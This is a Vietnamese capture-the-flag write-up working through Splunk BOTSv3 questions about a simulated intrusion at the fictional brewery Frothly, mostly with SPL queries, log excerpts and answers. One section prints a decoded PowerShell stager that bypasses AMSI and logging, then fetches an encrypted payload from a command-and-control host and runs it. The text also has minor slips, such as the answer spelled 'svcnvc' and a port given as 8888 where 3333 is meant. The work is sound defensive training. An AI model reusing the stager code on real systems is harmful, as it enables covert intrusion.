

# BOTSv3

Có vẻ như Taedonggang, một nhóm của Triều Tiên, đã tấn công Frothly, một nhà sản xuất bia.

BOTSv3 dataset [https://github.com/splunk/botsv3?tab=readme-ov-](https://github.com/splunk/botsv3?tab=readme-ov-file)

- Tham khảo Host và Sourcetypes **tại** h[ttps://www.jamesgibbins.com/botsv3/](https://www.jamesgibbins.com/botsv3/)
- Mỗi host có những sourcetype nào
  ```powershell
  | tstats values(sourcetype) by host
  ```
- Mỗi sourcetype xuất hiện ở những log nào
  ```powershell
  | tstats values(host) by sourcetype
  ```
- Thêm **count** để biết “host nào có nhiều log loại đó nhất”, từ đó đoán host “chính” của một dịch vụ
  ```powershell
  | tstats count by host sourcetype | sort host -count
  | tstats count by sourcetype host | sort sourcetype -count
  ```
- Các host có đuôi `-L` (ABUNGST-L, BGIST-L, …) là máy trạm Windows của nhân viên.
- Nhóm host dạng `gacrux.i-...` là Linux web servers (Apache).
- Các máy quan trọng cần nhớ:
  - `BSTOLL-L` (Bud Stoll): Đây là nhân vật chính cần quan tâm. Máy này là nạn nhân bị nhiễm mã độc trong kịch bản APT (Scenario 1).
  - `ABUNGST-L` (Al Bungstein): Một user khác, thường dùng để đối chiếu hành vi bình thường.

## **1. (208)** A Frothly endpoint exhibits signs of coin mining activity. What is the name of the first process to reach 100 percent CPU processor utilization time from this activity on this endpoint?

- Xác định thời gian và máy tính, trong đề bài, chúng ta biết máy bị nhiễm là của **Bud Stoll (`BSTOLL-L`)**.
  ```powershell
  index=botsv3 host="BSTOLL-L"
  ```
- Lượng log từ sourcetype= PerfmonMk:Process là rất lớn
  
- Ta đoán cuộc tấn công diễn ra vào buổi chiều vì số lượng log của host BSTOLL-L đột biến vào buổi chiều, nhiều nhất là 1h chiều.
  ```powershell
  index=botsv3 host="BSTOLL-L"
  | timechart span=1h count
  ```
  
  
- Tiếp theo cần tìm dữ liệu về CPU (Performance Log)
  ```powershell
  index=botsv3 host="BSTOLL-L" sourcetype="PerfmonMk:Process"
  ```
- Nhìn vào INTERESTING FIELDS ta có thế đoán field **process_cpu_used_percent** rất có thể là trường phần trăm CPU, từ đó ta tìm log thời điểm có 100% CPU
  ```powershell
  index=botsv3 host="BSTOLL-L" sourcetype="PerfmonMk:Process" process_cpu_used_percent=100
  | table _time, process_name, process_cpu_used_percent
  | sort _time
  ```
  
- Ta thấy tiến trình MicrosoftEdgeCP chỉ xuất hiện 1 lần vào lúc 9h sáng, từ buổi chiều là các tiến trình của chrome xuất hiện liên tục với CPU 100% → Tiến trình Edge chỉ là người dùng bình thường, tiến trình thực sự đào coin là chrome
- Vậy tiến trình đầu tiên đào coin là `chrome#5`

## **2. (210)** What is the short hostname of the only Frothly endpoint to actually mine Monero cryptocurrency?

- **Dữ kiện từ câu 208:** Ta đã tìm ra thủ phạm gây 100% CPU là `chrome#5` (Trình duyệt web).
- Đây là hành vi **"Browser-based Mining"** (Đào tiền ảo bằng trình duyệt). Kẻ tấn công nhúng một đoạn mã JavaScript vào trang web, khi nạn nhân truy cập, trình duyệt của họ sẽ bị biến thành máy đào.
- Vào năm 2018 (thời điểm diễn ra kịch bản), dịch vụ đào Monero trên trình duyệt nổi tiếng nhất thế giới là **Coinhive**.
- Tìm xem có log nào nhắn đến coinhive không
  ```powershell
  index=botsv3 "coinhive"
  ```
- Đếm xem host nào xuất hiện nhiều từ đó nhất
  ```powershell
  index=botsv3 "coinhive"
  | stats count by host
  ```
  

→ chắc chắn rằng BSTOLL-L là máy đào coin.

⇒ Đáp án là `BSTOLL-L`

## 3. (215) What is the FQDN of the endpoint that is running a different Windows operating system edition than the others?

- Ta đoán trong hệ thống chắc chắn phải có windows 10 nên search
  ```powershell
  index=botsv3 "windows 10"
  ```
  
- Đoán được source là `operatingsystem` và field `os` là trường tên của hệ điều hành, chạy SPL sau để thống kê các host theo os
  ```powershell
  source="operatingsystem"
  | stats values(host) by os
  ```
  

→ thấy host BSTOLL-L chạy một mình một hệ điều hành.

⇒ đáp án là `BSTOLL-L`

## 4. (304) What is the name of the user that was created after the endpoint was compromised?

- Ta đã biết máy bị xâm phạm là hệ điều hành Windows ở câu 215 nên EventCode = 4720 là created user
  ```powershell
  index=botsv3 EventCode=4720
  ```
  

→ chỉ có một log tạo user

- Log
  ```powershell
  08/19/2018 22:08:17 PM
  LogName=Security
  SourceName=Microsoft Windows security auditing.
  EventCode=4720
  EventType=0
  Type=Information
  ComputerName=FYODOR-L.froth.ly
  TaskCategory=User Account Management
  OpCode=Info
  RecordNumber=277561
  Keywords=Audit Success
  Message=A user account was created.

  Subject:
  	Security ID:		AzureAD\FyodorMalteskesko
  	Account Name:		FyodorMalteskesko
  	Account Domain:		AzureAD
  	Logon ID:		0x1091C98

  New Account:
  	Security ID:		FYODOR-L\svcvnc
  	Account Name:		svcvnc
  	Account Domain:		FYODOR-L

  Attributes:
  	SAM Account Name:	svcvnc
  	Display Name:		<value not set>
  	User Principal Name:	-
  	Home Directory:		<value not set>
  	Home Drive:		<value not set>
  	Script Path:		<value not set>
  	Profile Path:		<value not set>
  	User Workstations:	<value not set>
  	Password Last Set:	<never>
  	Account Expires:		<never>
  	Primary Group ID:	513
  	Allowed To Delegate To:	-
  	Old UAC Value:		0x0
  	New UAC Value:		0x15
  	User Account Control:
  		Account Disabled
  		'Password Not Required' - Enabled
  		'Normal Account' - Enabled
  	User Parameters:	<value not set>
  	SID History:		-
  	Logon Hours:		All

  Additional Information:
  	Privileges		-
  ```
- Subject
  - Người tạo là user: `FyodorMalteskesko`
- New account:
  - Tên user được tạo là: `svcvnc`
- Lưu ý trong log có `Password Not Required` tức user này không yêu cầu mật khẩu, tức là có thể để mật khẩu hoặc không, không có nghĩa là user này không có mật khẩu.

⇒ Đáp án là `svcnvc`

## 5. (320) What is the password for the user that was created on the compromised endpoint?

- Ta có thể tìm mật khẩu bằng EventCode=4688 hoặc sysmon id=1
  ```powershell
  index=botsv3 svcvnc(EventCode=4688 OR EventCode=1)
  ```
  
- Password ở field Command Line
  ⇒ `Password123!`

## **6. (300)** What is the full user agent string that uploaded the malicious link file to OneDrive?

- Thử SPL tìm những thứ liên quan đến onedrive
  ```powershell
  index=botsv3 onedrive
  ```
  
- Ta thấy có sourcetype=`ms:o365:management` là của Microsoft office 365 thì mới có onedrive, thêm trường đó vào SPL
  ```powershell
  index=botsv3 onedrive sourcetype="ms:o365:management"
  ```
- Ta thấy field `Workload` có `ondrive` (trường workload là sự kiện này xảy ra ở ứng dụng nào).
  
- Tiếp tục nhìn thấy trường `Operation` có `FileUploaded` để ta có thể xem tải file gì lên
  
- Chúng ta cần xem ai tải lên (`UserId` hoặc `user`), tải lên cái gì (`SourceFileName`) và dùng trình duyệt gì (`UserAgent`).


- Có 7 event, sử dụng table
  ```powershell
  index=botsv3 onedrive sourcetype="ms:o365:management" Workload=OneDrive Operation=FileUploaded
  | table _time UserId SourceFileName UserAgent
  ```
  
- Ta thấy có file `BRUCE BIRTHDAY HAPPY HOUR PICS.lnk` là file shotcut tải lên onedrive rất đáng nghi và nó đang giả dạng ảnh

⇒ User agent là `Mozilla/5.0 (X11; U; Linux i686; ko-KP; rv: 19.1br) Gecko/20130508 Fedora/1.9.1-2.5.rs3.0 NaenaraBrowser/3.5b4`

## **7. (301)** What external client IP address is able to initiate successful logins to Frothly using an expired user account?

- SPL với từ khóa `expired`
  ```powershell
  index=botsv3
  ```
  
- Ta thấy sourcetype= `ms:aad:signin` là liên quan đến đăng nhập (Azure Active Directory - Hệ thống đăng nhập đám mây của Microsoft). Thêm sourcetype đó vào SPL
  
- Chỉ có một event, và nó có **`failureReason**: Invalid password, entered expired password.` Nghĩa là log này báo đăng nhập thật bại vì mật khẩu hết hạn.
- Ta xác định được:
  - ipAddress của kẻ tấn công: 199.66.91.253
  - Tên user đang bị đăng nhập thất bại: Kevin Lagerfield
- Thực hiện SPL

```powershell
index=botsv3 sourcetype="ms:aad:*" (*Kevin* OR *Lagerfield*)
```

- Ra được 19 event và ta có chuỗi sự kiện sau:
  - **activity**: Update user
    **activityDate**: 2018-08-20T11:24:28.3773722Z
  - **activity**: Set user manager
    **activityDate**: 2018-08-20T11:24:28.4867505Z
  - **activity**: Update user
    **activityDate**: 2018-08-20T11:24:28.7368822Z
  → Tài khoản này đang được kích hoạt lại sau một thời gian không dùng.
  - **activity**: Add member to role
    **activityDate**: 2018-08-20T11:25:15.5251289Z
  - **activity**: Reset user password
    **activityDate**: 2018-08-20T11:41:36.4906486Z
  - **failureReason**: Invalid username or password or Invalid on-premise username or password.
    → đăng nhập thất bại vì kẻ tấn công nhập sai thông tin.
  - **activity**: Reset user password
    **activityDate**: 2018-08-20T11:42:51.0513891Z
        → sau đó kẻ tấn công reset lần nữa.
  - **failureReason**: Invalid password, entered expired password.
    → đăng nhập thất bại vì sau khi reset mật khẩu phải đổi mật khẩu trong lần đăng nhập đầu tiên.
  - **activity**: Change user password
    **activityDate**: 2018-08-20T11:43:22.5565538Z
  - **activity**: Change password (self-service)
    **activityDate**: 2018-08-20T11:43:22.5596423Z
  - Sau đó kẻ tấn công đã đăng nhập thành công và khai thác
  ⇒ IP của kẻ tấn công bên ngoài mạng nội bộ là `199.66.91.253`

## 8. (306) \*\*\*\*A search query originating from an external IP address of Frothly’s mail server yields some interesting search terms. What is the search string?

- Ta biết Frothly sử dụng Microsoft office 365 nên thử tìm trong sourcetype ms:o365:management
  ```powershell
  index=botsv3 sourcetype="ms:o365:management"
  ```
  
  
- Ta thấy workload=`Exchange` của Mcrosoft (email, lịch cá nhân, danh bạ,..) có vẻ liên quan đến Email
  ```powershell
  index=botsv3 sourcetype="ms:o365:management" Workload=Exchange
  ```
  
- Thêm giá trị New-MailboxSearch của trường operation vào
  ```powershell
  index=botsv3 sourcetype="ms:o365:management" Workload=Exchange Operation="New-MailboxSearch"
  ```
- Chỉ có 1 event với log sau
  ```powershell
  {"Parameters": [{"Name": "Name", "Value": "SOX"}, {"Name": "SearchQuery", "Value": "cromdale OR beer OR financial OR secret "}, {"Name": "AllSourceMailboxes", "Value": "True"}, {"Name": "EstimateOnly", "Value": "True"}], "ResultStatus": "True", "UserType": 2, "SessionId": "", "Version": 1, "UserId": "fyodor@froth.ly", "Id": "4f3ca1bb-1e03-4da6-7cf0-08d5f2643ddd", "OriginatingServer": "CY4PR17MB1398 (15.20.0973.010)", "UserKey": "1003BFFDA2E71FF9", "ClientIP": "104.207.83.63:21974", "OrganizationName": "frothly.onmicrosoft.com", "RecordType": 1, "ObjectId": "", "Operation": "New-MailboxSearch", "Workload": "Exchange", "CreationTime": "2018-08-20T10:48:28", "OrganizationId": "225e05a1-5914-4688-a404-7030e60f3143", "ExternalAccess": false}
  ```
  "Name": "SearchQuery",
  "Value": "cromdale OR beer OR financial OR secret "

⇒ query string là: `cromdale OR beer OR financial OR secret`

## **9. (314)** What port number did the adversary use to download their attack tools?

- Thử SPL
  ```powershell
  index=botsv3 port
  ```
  
- Có source stream:tcp và stream:http là có thể sử dụng để tải file (udp không dùng để tải file)
  - `stream:http` thì có thể cho biết rõ: ai tải (Src_IP), tải từ đâu (Dest_IP), tên file là gì (`uri_path` hoặc `filename`), và cổng nào **(`dest_port`)**. Thông qua wget, curl, powershell,..
  - `stream:tcp` thì đây là log ở tầng giao vận (Transport Layer), nó chỉ cho biết có kết nối TCP từ IP A sang IP B qua Port X.
- Thử với stream:http và method=GET là để download
  ```powershell
  index=botsv3 port sourcetype="stream:http" http_method=GET
  | rare dest_port
  ```
  - `rare` để xếp những port ít xuất hiện lên trước ( ngược với `top`)
  
- Ta thấy có cổng 22 và 3333 xuất hiện 1 lần, cổng 22 có vẻ khả nghi vì thường dùng cho SSH nhưng lại xuất hiện ở HTTP GET, còn cổng 3333 mới lạ , kiểm tra cổng 3333
  ```powershell
  index=botsv3 port sourcetype="stream:http" http_method=GET  dest_port=3333
  ```
  
- Phân tích
  - Lệnh này đang giả danh tải một logo bằng powershell, ít có nhân viên mở powshell lên để tải logo
  - Giao thức HTTP tải ảnh thông thường luôn chạy ở cổng 80 hoặc 443, cổng 8888 là một cổng phi tiêu chuẩn (Non-standard port).
  - File ảnh logo thông thường chỉ nặng vài KB, nhưng ở đây kích thước tới 5.5 MB

⇒ Đáp án là `3333`

## **10. (318)** From what country is a small brute force or password spray attack occurring against the Frothly web servers?

- Trong bộ dữ liệu này, các Web server có tên bắt đầu bằng `gacrux` và chạy trên Linux
- Log xác thực được lưu trong sourcetype=`linux_secure`
  ```powershell
  index=botsv3 sourcetype=linux_secure host=gacrux*
  ```
- Hành vi là brute-force nên trong log sẽ có `Failed password` hoặc `Invalid user`
  ```powershell
  index=botsv3 sourcetype=linux_secure host=gacrux* ("Failed password" OR "Invalid user")
  ```
  
- Có 8 event, đếm theo src và sử dụng iplocation để tìm ra vị trí của ip
  ```powershell
  index=botsv3 sourcetype="linux_secure" host="gacrux*" ("Failed password" OR "Invalid user")
  | stats count by src
  | iplocation src
  ```
  
  - lat/lon: là kinh và vĩ độ
- Ta thấy ip `5.101.40.81` chỉ có 1 log nên không phải brute-force, và vì đây là cuộc tấn công nhỏ nên ip còn lại có 3 log đúng là brute-force password

⇒ đáp án là `113.162.80.84`

## **11. (202)** What is the processor number used on the web servers?

- Các bộ vi xử lý phổ biến nhất là intel và amd
  ```powershell
  index=botsv3 intel OR amd
  ```
- Ra rất nhiều log nhưng phát hiện sourcetype cho phần cứng là `hardware` và `osquery:results`
  - Osquery (do Facebook/Meta phát triển) là: coi toàn bộ hệ điều hành là một Cơ sở dữ liệu quan hệ (Relational Database).
  - Khi cài Osquery lên máy tính, người quản trị sẽ lập lịch để nó chạy các câu lệnh SQL trên định kỳ (ví dụ: 5 phút/lần). Kết quả trả về sẽ được đẩy vào Splunk dưới sourcetype **`osquery:results`**.
- Kiểm tra trong sourcetype `hardware` trước:
  ```powershell
  index=botsv3 sourcetype=hardware (intel OR amd)
  ```
  
  - Chỉ có 3 log với CPU là `Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz` cho 3 host là:
    - gacrux.i-09cbc261e84259b54
    - gacrux.i-06fea586f3d3c8ce8
    - gacrux.i-0cc93bade2b3cba63
- Kiểm tra trong `osquery:results`
  
  
  - Có 3 log cũng với CPU là `Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz` cho 2 host sau:
    - gacrux.i-06fea586f3d3c8ce8
    - gacrux.i-0cc93bade2b3cba63
- Kiểm tra các host kia có phải web server không
  ```powershell
  index=botsv3 host=gacrux.i-09cbc261e84259b54 OR host=gacrux.i-06fea586f3d3c8ce8 OR host=gacrux.i-0cc93bade2b3cba63
  ```
  - Chúng có các process như sau
    
  - Có rất nhiều tiến trình httpd thì khả năng cao là Web server và nó phục vụ cho trang web

⇒ Đáp án là `E5-2676`

## **12. (303)** What is the password for the user that was successfully created by the user “root” on the on-premises Linux system?

- Câu này yêu cầu tìm password trong, điều này có thể xảy ra khi người quản trị tạo user và mật khẩu bằng cmd
- Câu lệnh trên linux có thể là useradd “username” -p “password”, tìm với các ký tự này
  ```powershell
  index=botsv3 useradd OR adduser
  ```
- Có source `/var/log/auth.log` chỉ có 1 count, tìm trong này xem có user nào được tạo
  
- user `tomecat7` được tạo với UID=0 (user id=0 là cho người dùng root), kiểm tra user này trên toàn hệ thống
  ```powershell
  index=botsv3 tomcat7
  ```
- Có sourcetype `osquery:result`
  ```powershell
  index=botsv3 tomcat7 sourcetype="osquery:results"
  ```
  
- Tìm được câu lệnh cmd để tạo user này

| "useradd" "-ou" "tomcat7" "-p" "ilovedavidverve" "0" "-g" "0" "-M" "-N" "-r" "-s" "/bin/bash" |
| --------------------------------------------------------------------------------------------- |

⇒ Đáp án là `ilovedavidverve`

## **13. (305)** What is the process ID of the process listening on a “leet” port?

- **Quy tắc Leetspeak:** Họ thường thay chữ cái bằng số có hình dáng tương tự.
  - L = 1
  - E = 3
  - T = 7
  - "Leet port" chính là **Port 1337**

```powershell
index=botsv3 1337
```

- Kiểm tra trong tất cả các field thì có `columns.port` `dest_port` `src_port`


```powershell
index=botsv3 columns.port=1337 OR dest_por=1337 OR src_por=1337
```


- có 1 event với columns.pid = `14356` trong sourcetype `osquery:results`

⇒ Đáp án là `14356`

## **14. (315)** During the attack, two files are remotely streamed to the /tmp directory of the on-premises Linux server by the adversary. What are the names of these files?

- Tìm /tmp/ trong hệ thống
  ```powershell
  index=botsv3 /tmp/
  ```
  
- Xuất hiện `/tmp/` trong WinEventLog là quá bất thường (vì trên windows là `\temp\`), kiểm tra souretype `WinEventLog`
  ```powershell
  index=botsv3 /tmp/ sourcetype=WinEventLog
  | sort _time
  ```
  
- Có 18 event và nó chứng minh rằng attacker đã chiếm được máy windows và đang lateral movement ( di chuyển sang máy khác)
- Phân tích câu lệnh của attacker chạy trên command line:
  - Sử dụng công cụ `iexeplorer.exe`, cố tình viết sai tên của `iexplorer.exe` để tránh bị phát hiện.
  - Mục tiêu là http://192.168.9.30:8080/frothlyinventory/showcase.action
  - Câu lệnh `echo … >> /tmp/colonel` , atttacker đang gửi đoạn mã base64 vào file /tmp/colonel, khi decode đoạn base64 thì được mã nguồn C dùng để hack.
  - Đây là lỗ hổng RCE.
- Các log tiếp theo có gửi cả vào file `/tmp/definitelydontinvestigatethisfile.sh`
  

⇒ Đáp án là `/tmp/definitelydontinvestigatethisfile.sh` và `/tmp/colonel`

## **15. (316)** Based on the information gathered for question 314, what file can be inferred to contain the attack tools?

⇒ Đáp án là `logos.png`

## **16. (322)** _What is the path of the URL being accessed by the command and control server?_

- Attacker thường sử dụng encode base64 để truyền qua firewall mà không bị chặn hoặc enscape và khi giải mã base64 đó trên máy windows thường có chuỗi `FromBase64String`
  ```powershell
  index=botsv3 "*FromBase64String*"
  | stats count by host
  ```
  
- Kiểm tra host FYODOR-L
  
- Kiểm tra log của sysmon `WinEventLog:Microsoft-Windows-Sysmon/Operational`
  
- Ta thấy nó đã chạy một loạt các hành động tấn công Mã độc không file (Fileless) sử dụng PowerShell để giải mã payload từ Registry, sau đó lần lượt ra lệnh nén trộm dữ liệu OneDrive (`tar.exe`), kiểm tra quyền user (`whoami`) và tạo lịch tự động chạy (`schtasks`).
- Nhìn vào log đầu tiên chứa toàn bộ mã nguồn của con Agent mã độc
  
- Decode đoạn base64 đó, và decode text UTF-16LE vì PowerShell trên Windows sử dụng bảng mã **UTF-16LE** (Little Endian) làm chuẩn và sử dụng AI để giải thích đoạn mã.
  ```powershell
  # 1. Tắt các tính năng bảo mật (Logging & AMSI Bypass)
  # Đoạn này cố gắng tắt ScriptBlockLogging để không bị ghi log,
  # và vô hiệu hóa AMSI (Antimalware Scan Interface) để không bị Windows Defender quét.
  If($PSVerSIonTable.PSVeRSIon.MAJOR -gE 3){...$GPF=...Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')...}

  # 2. Cấu hình kết nối mạng
  [SysTEM.NeT.SERVICEPoINTMaNaGER]::EXPecT100COntinUE=0;
  $wC=New-OBJeCt SYSTeM.NEt.WebCLiENT;
  $u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko'; # User-Agent giả mạo
  $wC.HEAdeRs.AdD('User-Agent',$u);
  $Wc.PRoXy=[SyStEm.NET.WebReqUESt]::DefaUlTWEbProXy;
  $WC.ProxY.CRedeNTiALs = [SYsTem.NEt.CreDeNTiALCacHe]::DefaUlTNEtWorkCrEdentiaLs;

  # 3. Khóa giải mã (Encryption Key)
  # Đây là chìa khóa để giải mã dữ liệu tải về từ C2
  $K=[SYSTeM.TexT.EnCOdinG]::ASCII.GETBYTES('1AB<Yk6Z4#+vVu%o5}8&M-9UL~l|>0gP');

  # 4. Hàm giải mã RC4 ($R)
  $R={...};

  # 5. Cấu hình Máy chủ C2 (QUAN TRỌNG NHẤT)
  # Biến $ser chứa IP máy chủ (được giấu trong Base64 lớp 2)
  $ser=$([Text.EncodIng]::UnICODE.GEtSTrinG([ConvERt]::FroMBAse64StriNG('aAB0AHQAcABzADoALwAvADQANQAuADcANwAuADUAMwAuADEANwA2ADoANAA0ADMA')));
  # -> Giải mã ra: https://45.77.53.176:443

  # Biến $t chứa đường dẫn URL
  $t='/admin/get.php';

  # 6. Thực thi
  # Tải dữ liệu từ C2 ($ser + $t), dùng Cookie để xác thực
  $WC.HEaDErS.AdD("Cookie","PthAVgs=hB2H0GTIpwxCeLhGe/fLkfBpCdI=");
  $daTA=$wC.DOWnloAdDAtA($sEr+$t);

  # Giải mã dữ liệu tải về và Chạy ngay lập tức (IEX)
  $iv=$dATA[0..3];
  $DaTa=$daTA[4..$Data.lENGTH];
  -joiN[ChAr[]](& $R $DaTa ($IV+$K))|IEX
  ```

⇒ URL là `/admin/get.php`

## **17. (323)** _At least two Frothly endpoints contact the adversary’s command and control infrastructure. What are their short hostnames?_

- Ta đã biết ở câu trên là URL path để truy cập vào máy chủ C2 là `/admin/get.php` , tìm xem còn máy nào trong nội bộ đã truy cập vào path này
  ```powershell
  index=botsv3 "/admin/get.php" | stats count by host
  ```
  

⇒ Đáp án là `ABUNGST-L` và `FYODOR-L`
